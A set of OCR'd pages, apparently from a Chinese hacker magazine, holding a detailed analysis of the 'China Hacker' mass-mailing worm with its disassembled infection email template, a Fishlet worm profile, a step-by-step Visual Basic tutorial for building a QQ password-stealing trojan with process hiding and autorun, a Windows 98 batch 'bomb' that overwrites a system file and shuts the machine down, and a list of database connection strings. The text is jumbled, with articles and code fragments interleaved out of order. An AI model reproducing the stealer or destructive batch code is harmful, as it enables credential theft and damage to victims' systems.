由此，病毒进入第二个阶段。重置 SEH 意外忽略处理程序，把自己体内被简单压缩过的一个 Windows PE 程序解压缩并拷贝到系统目录下，取名为 RUNOUCE.EXE，企图与 Windows 系统目录下本来存在的文件 RUNONCE.EXE 鱼目混珠；然后调用病毒传染模块接口传染该 PE 程序，将文件属性置为只读 + 隐藏 + 系统，进一步保护自己不被发现、修改、删除，而且保持病毒副本一直被独占打开，即使你强行删除病毒文件也很困难，病毒作者用心良苦。接下来，病毒将此病毒副本登记到注册表 (SOFTWARE\Microsoft\Windows\CurrentVersion\Run), Runonce 键值中，保证自己开机便能自动运行。同时创建注册表守护线程，病毒利用 Windows API RegNotifyChangeKeyValue()来监视注册表是否被修改，一旦发现有改动操作，病毒就会恢复它自己的键值，确保自己在系统重起后的控制权。所以，要删除该键值就必须杀掉病毒进程。可惜杀掉病毒进程并不容易。

```
HANDLE CreateKernelThread(
LPSECURITY_ATTRIBUTES lpThreadAttributes, // pointer to thread security attributes
DWORD dwStackSize, // initial thread stack size, in bytes
LPTHREAD_START_ROUTINE lpStartAddress, // pointer to thread function
LPVOID lpParameter, // argument for new thread
DWORD dwCreationFlags, // creation flags
LPDWORD lpThreadId // pointer to returned thread identifier
);
```

三、病毒创建进程守护线程

WinNt/2K/XP提供了创建远程线程函数CreateRemoteThread, 原先这一技术被大量的用在了木马、黑客程序上。“中国黑客”病毒用 FindWindow 随机取得一个窗口句柄，通过 GetWinThreadProcId取得窗口拥有者的进程ID,一般来说取得的往往是桌面程序 Explorer 进程ID, 用 OpenProcess 打开该进程，再利用 VirtualAllocEx, WriteProcessMemory, 将病毒需要的代码和数据复制到远程地址空间，创建远程守护线程。远线程被启动，它将接受病毒进程 ID，并反向打开病毒进程，等待病毒进程 (WaitForSingleObject), 如果一旦等待结束，则远程病毒线程认为病毒进程已被杀死，重起病毒进程。这样病毒进程与病毒创建的远程一定程度上形成互锁机制。使用普通的进程管理程序便无法彻底杀死病毒进程。在 Window9x/Me 下，病毒首先将自己注册成服务，以初步保护自己，使用户按下 Ctrl+Alt+Del 键无法看到病毒进程。系统并没有提供创建远程线程系列函数，但是“中国黑客”病毒仍然实现了创建“远程线程”。笔者仔细分析后，发现病毒包含了一个独具特点的创新。

Win 9x/Me 系统 KERNEL32.DLL 包含一个未公开的函数 CreateKernelThread, 我翻遍了几乎所有的资料，网上查询，也没有发现这个函数的使用信息，可见病毒作者势必对 KERNEL32 非常的了解，从病毒中得知：

基本上与 CreateThread 函数一样，不同的是，lpStartAddress必须是属于KERNEL32.DLL地址空间的指针。为了能在KERNEL32.DLL进程中创建一个远程线程，病毒进入了Ring0环。与CIH病毒进入Ring0环一样，病毒利用Win9x的IDT漏洞，获得Ring0权限。进入Ring0后，病毒就对KERNEL32.DLL进程空间有无限的读写权限。此时，病毒就可以把病毒远程线程的代码与数据复制到KERNEL32地址空间中。在Windows 98中，笔者发现病毒把远程线程与数据复制到了0BFF70400h处。从病毒代码中分析得到，这个位置等于KERNEL32.DLL的模块句柄+KERNEL32.DLL的PE文件头尺寸。Windows 98下，KERNEL32.DLL的ImageBase=0BFF70000h，PE文件头大小（HeaderSizes）正好是400h。病毒在Win9x/Me下创建的内核远程线程的运行原理与病毒在Win2k/XP/NT环境中创建的远程线程一样。

## 四、“中国黑客”病毒传染部分

当病毒完成了守护线程的创建后，病毒又利用INT 3+SEH转到传染部分执行。共有4个步骤：

- （1）搜索本地磁盘EXE、SRC文件，调用病毒传染模块。可喜的是，病毒作者并没有完全打开这个传染模块。病毒从逻辑磁盘C开始搜索，如果找到一个目录，则病毒睡眠0.01秒，以消除CPU占有异常；如果找到的是文件，则病毒调用传染块，病毒判断文件扩展名是否是EXE、SRC，如果是就继续操作，去掉文件只读、系统、隐藏等属性，尝试打开文件；如果成功，病毒应该调用传染模块，在这里病毒作者关闭了此项功能；病毒接下来只简单地恢复了文件的访问时间与文件原始属性，然后便继续遍历磁盘文件。用户此时会明显感觉硬盘狂转。
- （2）搜索局域网文件并调用未打开的传染模块。与FunLove病毒一样，病毒会尝试传染局域网可写EXE、SRC文件。
- （3）病毒搜索本地WAB、ADC、*R.DB文件。WAB是Windows地址簿文件，MS Outlook将你的好友E-mail就放在其中，并以UNICODE编码的形式存放。文件起始+60h（DWORD）=UNICODE E-mail串在WAB文件中的位置偏移，文件起始+64h（DWORD）=WAB文件中邮件个数。每条E-mail记录为44h字节大小，病毒连续读出每个邮件地址记录，通过WideCharToMultiByte将UNICODE邮件地址字符串转化为ANSI邮件字符串，然后利用病毒自带的SMTP引擎，向你的好友发病毒邮件；ADC文件是FoxMail的Email地址簿文件，邮件地址字符串按明文存放，所以病毒可以轻易地获取E-mail列表。*R.DB笔者分析病毒主要是针对QQ USER.DB文件设计的，病毒体内包含一个E-mail地址字符串搜索的模糊匹配查找程序段，它可以搜索任意文件中包含的E-mail地址，于是病毒便可以借QQ用户数据记录的好友E-mail信息扩散病毒。
- （4）病毒搜索局域网WAB、ADC、*R.DB文件，调用SMTP引擎；搜索共享目录，病毒会在可写的每个共享目录内产生一个“计算机名字”.eml，使共享目录成为病毒发送的基地。

## 五、“中国黑客”病毒的SMTP引擎

病毒通过E-mail传染，仍然利用与求职信病毒相同的“IFRAME”附件自动执行漏洞。这是从病毒体内反汇编出来的邮件头：

```asm
db 'HELO btamail.net.cn',0dh,0ah
db 'MAIL FROM: iloveyou@btamail.net.cn',0dh,0ah
db 'RCPT TO: %s',0dh,0ah
db 'DATA',0dh,0ah
db 'FROM: %s@hotmail.com',0dh,0ah
db 'TO: %s',0dh,0ah
db 'SUBJECT: Hi,i am %s',0dh,0ah
db 'MIME-Version: 1.0',0dh,0ah
db 'Content-type: multipart/mixed; boundary="#BOUNDARY#"',0dh,0ah
db 0dh,0ah
db '--#BOUNDARY#',0dh,0ah
db 'Content-Type: text/html',0dh,0ah
db 'Content-Transfer-Encoding: quoted-printable',0dh,0ah
db 0dh,0ah
db '<html><HEAD></HEAD><body bgColor=3D#ffffff><iframe src=3Dcid:THE-CID height=3D0 width=3D0></iframe></body></html>',0dh,0ah
db 0dh,0ah
db '--#BOUNDARY#',0dh,0ah
db 'MIME-Version: 1.0',0dh,0ah
db 'Content-Type: audio/x-wav; name="p.exe"',0dh,0ah
db 'Content-Transfer-Encoding: base64',0dh,0ah
db 'Content-id: THE-CID',0dh,0ah,0dh,0ah,0
```

病毒利用btamail.net.cn的免费邮件系统乱发邮件，邮件标题是：Hi, I am [发送者的计算机名字]，诱惑力极大，这使得未打该漏洞补丁的用户极易中招。病毒把自身转换成BASE64编码附在病毒邮件头的后面。

## 六、病毒发作

“中国黑客”病毒在完成了搜索本地资源与网络资源后，睡眠5小时，然后启动QQ消息篡改线程，企图利用QQ发表政治言论。这个线程每0.5秒钟查找QQ消息发送窗口一次，如果找到QQ消息发送窗口，病毒会在QQ消息编辑框中添加12个回车换行符，然后依次从8句政治言论中抽取一条添加在QQ消息的末尾，直到8句话都发送完为止。但是，无论8句话发送完成与否，病毒主线程会在10分钟后自动结束该发作线程，然后重复搜索本地与网络资源，继续扩散病毒。

## 七、“中国黑客”鲜为人知的变形代码接口

笔者在对“中国黑客”做详细的反汇编代码分析后，发现在病毒入口处预留了一个隐秘的变形代码接口。病毒体的结尾提供了变形代码的支持子程序，经过深入分析，发现有如下特点：像DOS下“幽灵”病毒一样随机从EAX、EBX、ECX、EDX中选择寄存器使用，而且不同寄存器对应着不同的2种算法。也就是说，病毒可以达到随机选择寄存器和算法。比如说要完成将一Reg（寄存器）的值设为12345678h的任务，病毒可能选择EAX，并用指令MOV EAX,12345678h来实现；也可能选择ECX，用指令XOR ECX,ECX、ADD ECX,12345678h/2、SHL ECX,1三条指令来实现。所以完成同一目的的操作码、操作数、指令条数都是随机的。

## 八、总结

传统的病毒防火墙是无法阻止病毒传染的，目前有些病毒防火墙都利用文件系统过滤驱动程序对底层的文件访问事件的捕捉，然后回传到Ring3层杀毒引擎对文件进行病毒检查，它们并不能及时阻止病毒程序的运行。“中国黑客”病毒一旦运行后，由于病毒独特的“三线程”保护结构，使得病毒防火墙的内存监控程序即使发现病毒，查杀也比较困难，最后只能依赖于专杀工具，或者修改防火墙核心程序。由于Win9x系统下存在文件系统不可重入性的系统体系问题，在内核阻断文件操作无法通知到Ring3应用程序。尽管Win2k/NT/XP以后这种回调得到了系统支持，但是病毒防火墙设计者们或者出于兼容的原因选择了“异步文件”访问通知，而错过了查杀病毒的最好时机。

（上接73页）

## 冒充eBay订单 W32.Fishlet.A@mm 病毒档案

病毒名称：W32.Fishlet.A@mm  
感染系统：Windows 95，Windows 98，Windows NT，Windows 2000，Windows XP，Windows Me

W32.Fishlet.A@mm是一个使用Visual Basic写成的乱发邮件的蠕虫病毒。病毒搜索地址簿中的邮件地址，然后使用自带的SMTP引擎向这些邮件地址发送带毒邮件。

邮件有如下特征：

- 收件人：Ebay Taker
- 发件人：eMarketServices [orderprocesing@reply.ebay.com]
- 标题：Order
- 附件：######.exe（######是一个随机的名字）

邮件正文看起来很像一个在eBay订购货物的确认表单，以下列内容开始：

Dear eBay customer,  
Thank you for using eBay Services.

当病毒运行后，病毒释放下列文件到系统中：

- C:\Windows\Ccfp.exe
- C:\Windows\SndVx.exe
- C:\Windows\Ssh261.exe
- C:\Windows\Fishlet.bin

Fishlet.bin实际上是一个蠕虫创建的文本文件，其中包含有蠕虫从地址簿中获取的邮件地址。

病毒修改注册表，在注册表：

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run

下添加：

SndVX C:\WINDOWS\SndVx.exe

以便在系统启动时病毒也可以自动运行。

病毒发出的邮件内容中提及一个很便宜的预装有软件的Pentium 4电脑，然后会诱使收件人点击附件获得更多信息或者取消订单。邮件中包含三个有效的超链接。

## 用VB打造

### “QQ密码窃取器”

文/ALJIANG

> 注：这篇文章并非鼓励大家开发此类程序。任何人利用本文章提供的方法开发出来的软件所带来的任何问题与作者无关！

看了《黑客防线》中《一个简单木马程序的编写与伪装策略》很有感触。不过依照作者的方法，只能得到“QQ用户登录”窗口的用户名和密码，而大多用户是通过“QQ用户注册向导”来登录的，所以我们要重新开发一下。这次我们用VB来实现。虽说VB写这类程序不太合适，但这篇文章旨在介绍开发此类程序的一般方法，如果读者跟着我一起做的话，一定也能开发出自己的“潜伏者木马”。

准备工作：

- 1. 这次开发工具用的是VB，相信国内有很多人都会吧。其实如果你能看完这篇文章，那么用任何一款开发工具，都能开发针对任何程序的“潜伏者”程序。
- 2. 需要一张纸，一支笔，作用以后便知。

## 一、原理介绍——监视法

我们的目的是进攻QQ的用户名和密码程序，主要任务自然是辨认出用户名和密码，并且还要将其记录下来。我们使程序常驻内存，找寻“QQ用户注册向导”的窗口，一旦窗口出现，立即找寻用户名、密码的窗口，利用SendMessage返回窗口里的内容，这样我们就得到登录用户的用户名和密码了。由于程序“勤劳”地监视着桌面上的每一个窗口，所以我们称之为“监视法”。

## 二、监视法的优缺点

在VB中，我们使用“监视法”一般是加一个TIMER控件，将其Interval属性设置为1，即1毫秒执行代码一次。然后将找寻用户名、密码的核心代码放进去。从这里我们可以看出这种方法对系统资源的浪费会比较大，这就是监视法的主要缺点。而由于Interval的属性被置为了1，这样对QQ的登录用户就是一网打尽，几乎不可能漏掉一个用户，这就是监视法的优点。

给大家一个数据参考：笔者的机子是赛扬433，内存128M（一台老爷车了），在测试时，几乎看不出有什么异常，这就是说监视法在目前的机子上是行得通的，而且效果还很不错。

## 三、步入开发

### 1. 基础知识

主要是API函数。API函数的强大功能，相信大家都能体会到，而这个程序也是利用了API函数这把“利刃”。

- （1）FindWindow——用其找寻QQ的用户登录的窗口。

以下是其声明：

```vb
Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

FindWindow有两个参数，lpClassName是欲找寻窗口的类名，lpWindowName是欲找寻窗口的标题。而我们用到的是找寻QQ窗口的类名。

- （2）SendMessage——用其返回窗口内的文字。

以下是其声明：

```vb
Declare Function SendMessage& Lib "user32" Alias "SendMessageA" (ByVal Hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any)
```

SendMessage的参数比较多，读者可以到网上找相应的资料了解。在这里，读者仅需了解我们是靠SendMessage来取得用户名和密码的，在后面我会讲到SendMessage的用法（虽然在密码栏中显示的是*，但是用SendMessage返回的就是原始文字。网上许多星号探取器，也是主要用的这个函数来返回原始文字的）。

- （3）GetWindowLong——从指定窗口的结构中取得信息。

以下为其声明：

```vb
Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (ByVal hwnd As Long, ByVal nIndex As Long) As Long
```

我们利用其找到用户名和密码分别所在窗口，用法在后面的代码中有实际的解释。

- （4）GetWindow——获得一个窗口的句柄，该窗口与某源窗口有特定的关系。

```vb
Declare Function GetWindow Lib "user32" Alias "GetWindow" (ByVal hwnd As Long, ByVal wCmd As Long) As Long
```

在这里我们主要用这处API函数来得到窗口的子窗口。用法在代码中体现。

以上就是我们主要利用的API函数。但程序还会用许多其他的API函数，我会在代码中一一解释。

### 2. 了解敌人：

我们要利用QQ窗口的类名来找到QQ的窗口，那么问题来了，我们怎么知道QQ窗口的类名呢？在这里我为大家写了一个小工具，只要拖动图片到欲查找的窗口，即可显示出窗口的类名。如图1所示，我们利用这个小程序得到了“QQ注册向导”窗口的类名。如图1上所显示的是“#32770”。（当然，类名为#32770并非仅仅是QQ的窗口，但我们后面的条件又可以将范围缩小到仅有QQ才可以满足。）

先看一段代码（此段应加在TIMER控件中）：

```vb
QQhwnd = FindWindow("#32770", vbNullString)
得到窗口的句柄
If QQhwnd = 0 Then Exit Sub
```

接下来，我们要用代码直插心脏地带——得到“我的号码”和“密码”栏的内容：

```vb
zi = GetWindow(QQhwnd, GW_CHILD) ' 得到一个子窗口的句柄
If zi = 0 Then Exit Sub
zzi = GetWindow(zi, GW_CHILD) ' 得到子窗口的子窗口，即与“我的号码”呈并列关系的窗口
If zzi = 0 Then Exit Sub
```

接着，我们要找到“我的号码”和“密码”的窗口了。这里我们发现，“我的号码”和“密码”的类名都是“Edit”，如果我们找寻“Edit”类名窗口的话，可能会出现混淆，因此，我们采用另一种方法，即使用GetWindowLong来找寻窗口。在这里我提供一种笨方法，来找寻目的窗口：

```vb
Public Function getText(ByVal Hwnd As Long) As String
' 此函数的作用是返回指定句柄
Dim TextLength As Long ' 窗口中的内容
Dim text As String
TextLength = SendMessage(Hwnd, WM_GETTEXTLENGTH, 0, 0) ' 得到文字长度
TextLength = TextLength + 1
text = Space(TextLength)
SendMessage Hwnd, WM_GETTEXT, TextLength, ByVal text
getText = Left(text, TextLength) ' 得到文字内容
End Function
```

有了上面那个函数后，我们就可以通过窗口样式来得到目的窗口了：

```vb
Do While zzi <> 0
lo = GetWindowLong(zzi, GWL_STYLE) ' 返回窗口样式
MsgBox getText(zzi) ' 得到窗口的内容
MsgBox lo ' 得到样式
zzi = GetWindow(zzi, GW_HWNDNEXT) ' 得到下个同级窗口
Loop
```

# 编程解析

## PROGRAMMING ANALYSE

栏目编辑：Heavyd > heavyd@hacker.com.cn

以上的代码是通过遍历与“我的号码”同级的窗口，最终找到“我的号码”和“密码”窗口。第一次MsgBox弹出的是文字，例如“新申请一个QQ号码”、“通过QQ注册向导申请”等，紧接着的MsgBox是一串数字，即为该窗口的样式。你现在的工作就是一边点击鼠标，一边注意“我的号码”文字的出现，因为它后面便是一串有用的数字。

```vb
nameqq = ""
passwd = ""
End Sub
```

通过上面的方法，我们得到如下关系：

- 我的号码：1342251136
- 密码：1342242976

有了这个东东以后，我们就可以在Timer控件中加入如下的代码：

```vb
Do While zzi <> 0
lo = GetWindowLong(zzi, GWL_STYLE)
If lo = 1342251136 Then nameqq = getText(zzi)
判断是否为“我的号码”窗口
If lo = 1342242976 Then ' 判断是否为“密码”窗口
passwd = getText(zzi) ' 得到密码
Exit Do ' 退出循环
End If
zzi = GetWindow(zzi, GW_HWNDNEXT)
Loop
```

通过这个循环，我们便得到了“我的号码”和“密码”里的内容，并将其分别赋给nameqq和passwd，接下来就可以将得到的用户名和密码写进一个文件了：

```vb
Public Sub savefile(ByVal text1 As String, ByVal text2 As String, ByVal path As String)
On Error Resume Next
Dim fso As Object, nullstring As String, a As Object
nullstring = Space(5)
Set fso = CreateObject("scripting.filesystemobject")
创建文件系统对象
If fso.fileexists("path\explorer.ini") = False Then
此处path就由读者自己决定了
Set a = fso.openTextFile("path\explorer.ini", 8, True)
a.writeline "This little programme is coded by L. Jiang."
a.writeline ""
a.Close
End If
Set a = fso.openTextFile("path\explorer.ini", 8, True)
a.writeline text1 + nullstring + text2
```

这样即生成了一个密码文件。接着大家还可以继续写代码将此文件发送到指定邮箱去。这段代码，我就不再多说，想必大家都能写吧！

以上即为如何找到特征窗口并返回其内容的过程。大家看了后有什么感想，是不是很简单呢？是不是也想自己试试呢？呵呵，你可以试试开发对应网络游戏的潜伏者……

“潜伏者”的核心部分就介绍到这里了！

### 3. 开发后期

作为一个完整的“潜伏者”，还需要做点后期的工作。

- （1）隐藏进程。在Win98下，将我们的程序注册为系统进程，即用Ctrl+Alt+Del是无法看到的：

```vb
Declare Function GetCurrentProcessId Lib "kernel32" () As Long
Declare Function RegisterServiceProcess Lib "kernel32" (ByVal ProcessId As Long, ByVal ServiceFlags As Long) As Long
Dim id As Long
id = GetCurrentProcessId
RegisterServiceProcess id, 1
```

这样就能简单地隐藏程序了。其实还可以在“工程属性”中将工程名改得像系统进程，这样也能骗掉一些对系统不太熟的初学者。在Win2000下，这种方法不再适用，而且用上面的方法也是不能返回*号文字的原始内容的。

- （2）自动启动。我们的潜伏者总不能只运行一次吧，我们要想办法让它每次开机就启动。我们可以修改注册表来实现：

```vb
Public Sub AutoRun()
Dim wshshell As Object
Set wshshell = CreateObject("Wscript.Shell")
wshshell.regwrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\sysvcdll", "sysvcdll.exe"
End Sub
```

这里我们用到了WSH对象，功能强大，用法简单。大家应该听过Happy Time吧，其作者就

## 一个批处理炸弹的程序揭密

> 编者按:Windows 的炸弹有很多，下面看看利用批处理写的 Windows 98 炸弹。

文 / flyingfox

很多网友曾经问我，有什么好炸弹、如何编写、它们是什么原理之类的问题。我也抱着帮朋友入门的思想，用几分钟写了一个炸弹，（只对 Windows 98 有用），希望通过它可以帮助朋友们认识一下。其实炸弹程序种类很多但是并不可怕。就像下边这个就是利用系统漏洞写的一个批处理炸弹，我们来分析它的源程序：

```
注意：下面源程序需要另存为 1219.bat，（“\”后面的为命令解释）。
@echo off \ 关闭在屏幕上显示
SMARTDRV \ 加速磁盘运行
copy c:\windows\system\vmm32.vxd c:\windows\system\vmm32\vmm32.vxd \ 将system下的文件vmm32.vxd复制到文件夹vmm32下,备份vmm32.vxd，以防不测。
ren c:\windows\system\vmm32.vxd 1219.vxd \ 将vmm32.vxd改名为1219.vxd
echo Hacker1219>c:\windows\system\vmm32.vxd \ 将Hacker1219写入一个新的Vmm32.vxd文件中
echo del c:\windows\system\vmm32.vxd>c:\windows\system\vmm32\1119.bat \ 将del c:\windows\system\vmm32.vxd 写入c:\windows\system\vmm32文件夹下的1119.bat中。
echo ren c:\windows\system\1219.vxd vmm32.vxd>>c:\windows\system\vmm32\1119.bat \ 将ren c:\windows\system\1219.vxd vmm32.vxd写入c:\windows\system\vmm32文件夹下的1119.bat中。
echo del c:\windows\desktop\1219.url>>c:\windows\system\vmm32\1119.bat \ 将del c:\windows\desktop\1219.url 写入c:\windows\system\vmm32下的1119文件夹下的1119.bat中。
echo [internetshortcut]>c:\windows\desktop\1219.txt \ 将[internetshortcut]写入桌面的1219.txt文件中
echo url=http://127.0.0.1>>c:\windows\desktop\1219.txt \ 将url=http://127.0.0.1写入桌面的1219.txt文件中
echo iconindex=1>>c:\windows\desktop\1219.txt \ 将iconindex=1写入桌面的1219.txt文件中
echo iconfile=c:\con\con.dll>>c:\windows\desktop\1219.txt \ 将iconfile=c:\con\con.dll写入桌面的1219.txt文件中
ren c:\windows\desktop\1219.txt 1219.url \ 将桌面上的1219.txt改名为1219.url
echo on \ 打开屏幕显示
rundll32.exe user.exe,exitwindows \ 关闭计算机
```

另存为 1219.bat，如果误运行后可以按 F8 进入 DOS（为了安全，没有给 MS-DOS.SYS 中加入 "BOOTKEYS=0"），运行 c:\windows\system\vmm32\1119.bat，就可恢复系统。运行了 1219.bat 后，如果没有使用 1119.bat 恢复系统而覆盖安装 Win98，系统进入桌面蓝屏。具体请看源程序。

把 WSH 的作用发挥得淋漓尽致。推荐大家多多使用。

(3) 自我复制到 %systemroot% 目录下，通常都是 c:\windows\system。不过如果别人改了目录名怎么办？没关系，我们用程序来解决。

```
Dim lendir As Integer
Dim windir As String * 100
Dim sysdir As String
lendir = GetSystemDirectory(windir, Len(windir))
' 得到 %systemroot% 目录路径
Dim xpath As String
xpath = App.Path
xpath = xpath & "\" & App.EXEName & ".exe"
sysdir = Left(windir, lendir) & "\" & "sysvcdll.exe"
' 欲藏身的地方
CopyFile xpath, sysdir, False ' 复制文件
```

完成了后期制作，我们的“潜伏者”个人版就打造好了，是不是很酷呢？快试试效果吧！还是那句话，别拿它做不该做的事啊！在你自己的机子上试试看。从上面的代码可以看出，这类程序的开发其实是很简单的，难就难在怎么创新，怎样加入新的特性，这一点就需要读者自己来解决了。

# ADO

当我们进行数据库编程的时候，面对如此繁多的数据库类型，常常觉得无从下手，不知道打开它（们）需要什么字符串。下面的资料也许对你有所帮助。

## 连接字符串集

翻译 / 右右
说明：

在进行入侵、数据管理时，经常需要对数据库进行操作。通常来讲，当你想进行数据库操作时，第一步就是将其打开，然后进行我们想做的事情。但在繁多的数据库面前，它们连接的字符串是不相同的，我们进行编程的时候不知道该如何下手。下面是对常见的数据库连接字符串的集合，并有说明，供读者参考。

```
CString strQuery = _T("Select Name, Address From Clients.csv");
```

### 对 dBASE 数据库的连接

### 对 Visual FoxPro 进行连接

```
strConnection = _T("Driver={Microsoft dBASE Driver (*.dbf)};DriverID=277;Dbq=\\ComputerName\DatabasePath;"); // 这里仅仅指定路径
```

如果你使用数据库容器，请参看下面的连接字符串：

注意：在结构化查询语言中必须指定文件名，例如：

```
strConnection = _T("Driver={Microsoft Visual Foxpro Driver};UID=;SourceType=DBC;SourceDB=C:\DatabasePath\MyDatabase.dbc;Exclusive=No");
```

```
CString strQuery = _T("Select Name, Address From Clients.dbf");
```

如果没有使用数据库容器，你必须改变 SourceType 参数，令其为 DBF：

### 对 Excel 数据库的连接

```
strConnection = _T("Driver={Microsoft Excel Driver (*.xls)};DriverId=790;Dbq=C:\DatabasePath\DBSpreadSheet.xls;DefaultDir=c:\databasepath;");
```

```
strConnection = _T("Driver={Microsoft Visual Foxpro Driver};UID=;SourceType=DBF;SourceDB=C:\DatabasePath\MyDatabase.dbc;Exclusive=No");
```

### 对 Access 数据库连接的字符串

### 对 Text 数据库的连接

```
strConnection = _T("Driver={Microsoft Text Driver (*.txt; *.csv)};Dbq=C:\DatabasePath\;Extensions=asc,csv,tab,txt;");
```

```
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};Dbq=c:\DatabasePath\dbaccess.mdb;Uid=;Pwd=;");
```

注意：如果你使用表格定制文件，你必须建立 schema.ini 文件，设置 Format=TabDelimited 选项来连接你的字符串。同时，还必须指定文件

如果你是在工作站中使用，你必须指定路径、用户名和密码。达到这一效果可以有两种解决方法：或是使用用户名和密码的连接字符串，或是在打开操作时添加上用户名及密码，例如：

```
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};Dbq=C:\VC Projects\ADO\Samples\AdoTest\dbTestSecurity.mdb;" "SystemDB=C:\Program Files\Microsoft Office\Office\SYSTEM.mdw;" "Uid=Carlos Antolini;Pwd=carlos");
```

或者可以这样：

```
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};" "Dbq=C:\VC Projects\ADO\Samples\AdoTest\dbTestSecurity.mdb;" "SystemDB=C:\Program Files\Microsoft Office\Office\SYSTEM.mdw;");
if(pDB.Open(strConnection, "DatabaseUser", "DatabasePass"))
{
    DoSomething();
    pDB.Close();
}
```

如果你想使用执行模式，那么：

```
strConnection = _T("Driver={Microsoft Access Driver (*.mdb)};" "Dbq=c:\DatabasePath\dbaccess.mdb; Exclusive=1;");
```

### ODBC Driver for Sql Server

使用标准安全模式，则：

```
strConnection = _T("Driver={SQL Server}; Server=MyServerName;Trusted_Connection=no;" "Database=MyDatabaseName; Uid=MyUserName;Pwd=MyPassword;");
```

使用信任安全连接，则：

```
strConnection = _T("Driver={SQL Server}; Server=MyServerName;Database=myDatabaseName; Uid=;Pwd=;");
```

你还可以使用 Trusted_Connection 这个参数，它使用 Windows NT 验证模式来验证合法性：

```
strConnection = _T("Driver={SQL Server}; Server=MyServerName;Database=MyDatabaseName;" "Trusted_Connection=yes;");
```

如果 SQL 服务是允许在同一台电脑上，你可以用 “local” 来代替服务器名称：

```
strConnection = _T("Driver={SQL Server};Server=(local);" "Database=MyDatabaseName; Uid=MyUserName;Pwd=MyPassword;");
```

如果你想连接一台远程的 SQL 服务器，你必须指定 IP、端口和 Network Library，Network 参数有以下几种：

- dbnmpntw Win32 Named Pipes
- dbmssocn Win32 Winsock TCP/IP
- dbmsspxn Win32 SPX/IPX
- dbmsvinn Win32 Banyan Vines
- dbmsrpcn Win32 Multi-Protocol (Windows RPC)

例如：

```
strConnection = _T("Driver={SQL Server};Server=130.120.110.001;Address=130.120.110.001,1052;" "Network=dbmssocn;Database=MyDatabaseName;Uid=myUsername;Pwd=myPassword;");
```

### ODBC Driver for Oracle

当前的 Oracle 版本，应该使用：

```
strConnect = _T("Driver={Microsoft ODBC for Oracle}; Server=OracleServer.world;" "Uid=MyUserName;Pwd=MyPassword;");
```

旧版本的 Oracle，使用：

```
strConnect = _T("Driver={Microsoft ODBC Driver for Oracle};ConnectionString=OracleServer.world;" "Uid=myUserName;Pwd=myPassword;");
```

### ODBC Driver for MySQL

如果你想连接一个本地的数据库，你可以使用下面的字符串：

```
strConnect = _T("Driver={MySQL ODBC 3.51 Driver}; Server=localhost;Database=MyDatabase;" "User=MyUserName;Password=MyPassword;Option=4;");
```

说明：Option = 4 表示生成调试文件 c:\myodbc.log。

如果你想连接一个远程的数据库，你应该指定 Server 的名称或者 IP，端口号为 3306（默认端口）：

```
strConnect = _T("Driver={mySQL ODBC 3.51 Driver}; Server=MyRemoteHost;Port=3306;Option=4;" "Database=MyDatabase;Uid=MyUsername; Pwd=MyPassword;");
```

### ODBC Driver for AS400

```
strConnect = _T("Driver={Client Access ODBC Driver (32-bit)};System=myAS400;Uid=myUsername;" "Pwd=myPassword;");
```

### ODBC Driver for SyBase

```
strConnect = _T("Driver={Sybase System 10}; Srvr=MyServerName;Uid=MyUsername; Pwd=myPassword;");
```

### ODBC Driver for Sybase Sql AnyWhere

```
strConnect = _T("ODBC;Driver=Sybase SQL Anywhere 5.0;DefaultDir=C:\DatabasePath" "Dbf=C:\SqlAnywhere50\MyDatabase.db; Uid=MyUsername;Pwd=MyPassword;Dsn="";");
```

### 使用 OLE DB 提供者 (OLE DB Provider)

### OLE DB Provider for Sql Server

标准安全模式：

```
strConnect = _T("Provider=sqloledb;Data Source=MyServerName;Initial Catalog=MyDatabaseName;" "User Id=MyUsername; Password=MyPassword;");
```

信任安全连接：

```
strConnect = _T("Provider=sqloledb;Data Source=MyServerName;Initial Catalog=MyDatabaseName;" "Integrated Security=SSPI;");
```

如果你想连接一个“命名实例（Named Instance）”(SQL Server 2000)，你必须指定 Data Source=Server Name\Instance Name，例如：

```
strConnect = _T("Provider=sqloledb;Data Source=MyServerName\MyInstanceName;" "Initial Catalog=MyDatabaseName;User Id=MyUsername;Password=MyPassword;");
```

在本地运行，请使用“local”关键字：

```
strConnect = _T("Provider=sqloledb;Data Source=(local);Initial Catalog=myDatabaseName;" "User ID=myUsername; Password=myPassword;");
```

连接远程数据库，则：

```
strConnect = _T("Provider=sqloledb;Network Library=DBMSSOCN;Data Source=130.120.110.001, 1433;" "Initial Catalog=MyDatabaseName;User ID=MyUsername;Password=MyPassword;");
```

### OLE DB Provider for MySQL

```
strConnection = _T("Provider=MySQLProv;Data Source=test");
```

当数据库的文件名为 test 时候，你只要这样做就可以了：server=localhost;DB=test

### OLE DB Provider for AS400

```
strConnect = _T("Provider=IBMDA400;Data source=myAS400;User Id=myUsername; Password=myPassword;");
```

### OLE DB Provider for Active Directory (活动目录)

```
strConnect = _T("Provider=ADSDSOObject;User Id=myUsername;Password=myPassword;");
```

### OLE DB Provider for DB2

如果你使用 TCP/IP 协议进行连接：

```
strConnect = _T("Provider=DB2OLEDB;Network Transport Library=TCPIP;Network Address=130.120.110.001;" "Initial Catalog=MyCatalog;Package Collection=MyPackageCollection;" "Default Schema=MySchema;User
```

# PROGRAMMING ANALYSIS 编程解析

栏目编辑: Heavyd (heavyd@hacker.com.cn)

```
ID=MyUsername;Password=MyPassword;");
```

```
mdb;Uid=MyUsername;Pwd=MyPassword;");
```

如果你使用 APPC 进行连接:

连接 SQL Server:

```
strConnect = _T("Provider=DB2OLEDB;APPC Local LU Alias=MyLocalLUAlias; \"APPC Remote LU Alias=MyRemoteLUAlias;Initial Catalog=MyCatalog;\" \"Package Collection=MyPackageCollection;Default Schema=MySchema;\" \"User ID=MyUsername;Password=MyPassword;\");
```

```
strConnect = _T("Provider=MSDASQL;Driver={SQL Server};Server=MyServerName;" "Database=MyDatabaseName; Uid=MyUsername;Pwd=MyPassword;");
```

OLE DB Provider for Microsoft Jet

OLE DB Provider for Oracle

使用标准安全模式:

Microsoft OLE DB Provider for Oracle 允许 ADO 直接访问 Oracle 数据库:

```
